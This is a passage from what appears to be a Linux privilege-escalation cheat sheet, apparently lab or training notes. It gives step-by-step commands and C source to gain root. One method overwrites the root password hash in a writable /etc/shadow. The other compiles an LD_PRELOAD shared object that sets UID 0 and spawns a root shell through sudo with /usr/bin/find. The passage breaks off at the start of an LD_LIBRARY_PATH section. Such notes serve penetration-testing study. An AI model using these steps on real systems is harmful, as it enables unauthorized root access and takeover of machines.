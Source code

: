 If /etc/shadow is writable, we can generate a hash and overwrite the root hash

```
mkpasswd -m sha-512 newpasswordhere
```

Edit /etc/shadow and replace the original root user's hash with the one your created

```
su root
```

#### LD\_PRELOAD and LD\_LIBRARY\_PATH

**LD\_PRELOAD**

LD\_PRELOAD and LD\_LIBRARY\_PATH are both inherited from the user's environment. LD\_PRELOAD loads a shared object before any others when a program is run. LD\_LIBRARY\_PATH provides a list of directories where shared libraries are searched for first. Check first which env variables are inherited first

```
sudo -l
```

if you see LD\_PRELOAD and LD\_LIBRARY\_PATH then you can follow the steps below. Create a file called preload.c with the below code

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}

```

We will create a shared object now

```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Now we set LD\_PRELOAD to be equal to the shared object

```
sudo LD_PRELOAD=/tmp/preload.so /usr/bin/find
```

/usr/bin/find has been selected since it can be run as root without passwd. Check to see which programs can be run without passwd using 'sudo-l'

**LD\_LIBRARY\_PATH**

First we check the shared libraries for a program that can be run as root without the need for passwd
